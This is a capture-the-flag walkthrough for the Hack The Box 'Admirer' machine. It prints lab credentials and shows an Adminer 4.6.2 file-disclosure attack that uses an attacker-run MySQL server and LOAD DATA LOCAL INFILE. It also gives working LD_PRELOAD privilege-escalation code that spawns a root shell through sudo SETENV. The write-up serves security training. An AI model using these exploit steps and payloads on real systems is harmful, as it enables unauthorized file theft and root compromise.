

Admirer is a Linux machine rated Easy on HTB.

## Port Scan

`nmap -sC -sV -p- 10.10.10.187`

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 4a:71:e9:21:63:69:9d:cb:dd:84:02:1a:23:97:e1:b9 (RSA)
|   256 c5:95:b6:21:4d:46:a4:25:55:7a:87:3e:19:a8:e7:02 (ECDSA)
|_  256 d0:2d:dd:d0:5c:42:f8:7b:31:5a:be:57:c4:a9:a7:56 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/admin-dir
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Admirer
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

It seems like we have a Linux machine with Apache running.

## Dirbusting Web Server

Our nmap scan reveals a directory `/admin-dir`, so let's try fuzzing for files and folders within it.

Fuzzing for the following files extensions:

* txt
* xml
* php

With the wordlist:

* `/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt`

The `.txt` extension was fruitful.

```
DirBuster 1.0-RC1 - Report
http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project
Report produced on Tue May 05 04:23:36 EDT 2020
--------------------------------

http://10.10.10.187:80
--------------------------------
Directories found during testing:

Dirs found with a 403 response:

/admin-dir/

--------------------------------
Files found during testing:

Files found with a 200 responce:

/admin-dir/contacts.txt
/admin-dir/credentials.txt
```

In `credentials.txt`, we find the FTP credentials.

```
$ curl http://10.10.10.187/admin-dir/credentials.txt
[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuser
%n?4Wz}R$tTF7

[Wordpress account]
admin
w0rdpr3ss01!
```

## FTP Exfiltration

With the FTP credentials, let's log in and review the files.

```
$ ftp 10.10.10.187
Connected to 10.10.10.187.
220 (vsFTPd 3.0.3)
Name (10.10.10.187:kali): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0            3405 Dec 02 21:24 dump.sql
-rw-r--r--    1 0        0         5270987 Dec 03 21:20 html.tar.gz
```

We find two files and can download them with the `get` command.

## Examining Website Backup

After downloading the `html.tar.gz` tarball, we need to extract it.

`tar -zxvf html.tar.gz`

[tar options](https://linux.die.net/man/1/tar):

* `z` filters the archive through gzip 
* `xvf` e**x**tracts all **f**iles **v**erbosely 

It looks like a backup of the website hosted at port 80.

From the backup, we learn about a previously unknown directory `utility-scripts`. 

```
./utility-scripts:
total 16
-rw-r----- 1 kali kali 1795 Dec  2 12:48 admin_tasks.php
-rw-r----- 1 kali kali  401 Dec  1 17:28 db_admin.php
-rw-r----- 1 kali kali   20 Nov 29 14:32 info.php
-rw-r----- 1 kali kali   53 Dec  2 12:40 phptest.php
```

In `index.php`, we find a set of database credentials. However, given the unescaped `"` within the password, it's likely to be incorrect.

```
$servername = "localhost";
$username = "waldo";
$password = "]F7jLHw:*G>UPrTo}~A"d6b";
$dbname = "admirerdb";
```

`db_admin.php` looks like a script that connects to a mysql database. 

```
<?php
  $servername = "localhost";
  $username = "waldo";
  $password = "Wh3r3_1s_w4ld0?";

  // Create connection
  $conn = new mysqli($servername, $username, $password);

  // Check connection
  if ($conn->connect_error) {
      die("Connection failed: " . $conn->connect_error);
  }
  echo "Connected successfully";


  // TODO: Finish implementing this or find a better open source alternative
?>
```

## OSINT Based On Developer's Comments

Based on the TODO comment, `db_admin.php` is incomplete and the developer had the intention of finding an open source alternative. 

Perhaps the developer has already done so?

What open source alternatives are there? Let's conduct some OSINT.


Adminer is the top result.

According to [this Adminer setup tutorial](https://www.templatemonster.com/help/what-is-adminer-and-how-to-use-it.html), Adminer is installed at `adminer.php`.

Following this lead, we find Adminer installed at `http://10.10.10.187/utility-scripts/adminer.php`.


## Adminer Exploit

We note that the Adminer's version is 4.6.2. Some research reveals a vulnerability that was fixed only in version 4.6.3.

This vulnerability leads to disclosure of files on the server where Adminer is installed.

How it works:

* We are able to connect Adminer to a MySQL server that we control.
* After connecting, use `load data local infile` to load local files (on the web server) into a table. 
* Adminer will send the contents of the local file to our MySQL server.
* We can intercept the packets sent to us to view the file contents.

This way, we can read any local file that Adminer is able to access.

Now, let's try exploiting.

The steps are:

1. Set up MYSQL server
2. Connect Adminer to MYSQL server
3. Execute query to read file
4. Use wireshark packet to read file contents

### #1: Setting Up MySQL server

To carry out this exploit, we need to setup a mysql server that allows remote connections.  

First, set MYSQL to bind to our tun0 interface. 

For my version of Kali, in `/etc/mysql/mariadb.conf.d/50-server.cnf`:

`bind-address            = 10.10.X.X`

(In my Kali version, the MYSQL variant is [mariadb](https://mariadb.com/kb/en/mariadb-vs-mysql-compatibility/).)

Next, restart MYSQL for the new bind address to be effective.

`service mysql restart`

Finally, we need to create a user who is allowed to log in remotely. 

Save the following into `addremoteuser.sql`:

```
CREATE USER 'mysqlsec'@'10.10.10.187' IDENTIFIED BY 'password';
GRANT ALL PRIVILEGES ON *.* TO 'mysqlsec'@'10.10.10.187';
```

`mysql -u root -p < addremoteuser.sql`

Running the command above will execute the SQL command to:

* Create a user `mysqlsec` that can login from IP address 10.10.10.187 with the password `password`.

* Grants global privileges to `mysqlsec`.

### #2: Connecting Adminer To Our Server

Go to `http://10.10.10.187/utility-scripts/adminer.php` and log in with the following information:

* Server: 10.10.X.X
* Username: mysqlsec
* Password: password

The login is sucessful and we see the admin interface.


### #3: Loading Local File

Through Adminer, let's create a database `test` with one table called `test`.

Before we try loading a local file, let's start **Wireshark** and capture packets passing through `tun0`.

Now, click `SQL Command`, and use it to execute the code below.

```
LOAD DATA LOCAL INFILE '/var/www/html/index.php' 
INTO TABLE test.test
```

The command above tries to load the local file `index.php` into a table `test` in a database `test`. 

We are loading `index.php` because the backup copy we found in FTP shows that it contains database credentials. While the backup copy password is invalid, the live version might have the correct password.


There are warnings but it's okay as we are not going to review the actual database and table for the file contents. We will obtain them from the captured packets.

### #4: Capturing Packets

After executing the SQL commands, Wireshark shows many captured packets.

1. Filter by the protocol `mysql`.

2. Look for a **malformed packet**. And click on the packet just before it. The file content should be within that packet.


3. Right-click on it and select `Follow TCP Stream`.



In the file contents, we find the working database credentials.

## Abusing Sudo Rights To Set Environment Variables

With the credentials in `index.php`, due to password reuse, we can SSH into the machine as `waldo`.

As part of basic enumeration, we find out that `waldo` can:

* Run `admin_tasks.sh` as root
* Control the environment the script runs in.

```
waldo@admirer:~$ sudo -l
[sudo] password for waldo: 
Matching Defaults entries for waldo on admirer:
    env_reset, env_file=/etc/sudoenv, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always

User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
```

`env_reset` causes commands to be executed with a minimal environment. However, with the `SETENV` tag, we can override it, and effectively add any environement variable we want.

Given this ability, we can abuse the LD_PRELOAD environment variable for privilege escalation.

### What Is LD_PRELOAD?

LD_PRELOAD is an environment variable that holds the path to a shared link library that will be **preloaded**.

Preloading refers to loading the library before the [C language runtime](https://en.wikipedia.org/wiki/Runtime_library). This provides a way to hijack functions as preloaded libraries take precedence.

When we run an executable, the shell will load the library pointed to in LD_PRELOAD if it is present.

However, to avoid trivial exploitation, LD_PRELOAD works only if the RUID is the same as EUID. Fortunately, in our case, as we can execute `admin_tasks.sh` as root using `sudo`, the process running `admin_task.sh` will have RUID and EUID both set to 0.

RUID must be EUID.

Steps:

1. Create shared library payload
2. Execute `admin_tasks.sh` as root with LD_PRELOAD set to our shared library payload

#### Creating Shared Library Payload

Save the following as `shell.c`:

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD"); # we do not want the processes to inherit the LD_PRELOAD variable
setgid(0);
setuid(0);
system("/bin/sh");
}
```

Here, our link library hijacks the [`_init` function](https://tldp.org/HOWTO/Program-Library-HOWTO/miscellaneous.html).

Finally, compile the library with this command.

`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

If everything goes well, you will find `shell.so` compiled. 

### Getting A Shell

After infiltrating the library payload, we execute the script as root with an altered LD_PRELOAD path to get a shell.

```
waldo@admirer:/tmp$ sudo LD_PRELOAD=/tmp/shell.so /opt/scripts/admin_tasks.sh 
# whoami
root
```

# Thoughts

This box is filled to the brim with rabbit holes. We are basically spammed with credentials. That took up quite a bit of time.

It's fun to use Wireshark to examine MYSQL packets for the files content.

I tried tunnelling with ftpuser's limited SSH account but could not get it to work. Got this idea due to reference to internal mail.

**MySQL (MariaDB)**

* https://mariadb.com/kb/en/account-management-sql-commands/
* https://github.com/nixawk/pentest-wiki/tree/master/2.Vulnerability-Assessment/Database-Assessment/mysql

**Adminer Vulnerability**

* https://medium.com/bugbountywriteup/adminer-script-results-to-pwning-server-private-bug-bounty-program-fe6d8a43fe6f
* https://sansec.io/research/adminer-4.6.2-file-disclosure-vulnerability
* https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool
* https://www.vesiluoma.com/abusing-mysql-clients/

**LDPRELOAD**

* https://www.sudo.ws/man/1.8.13/sudoers.man.html 
* https://touhidshaikh.com/blog/2018/04/sudo-ld_preload-linux-privilege-escalation/
* https://packetstormsecurity.com/files/71988/sudo-local.txt.html
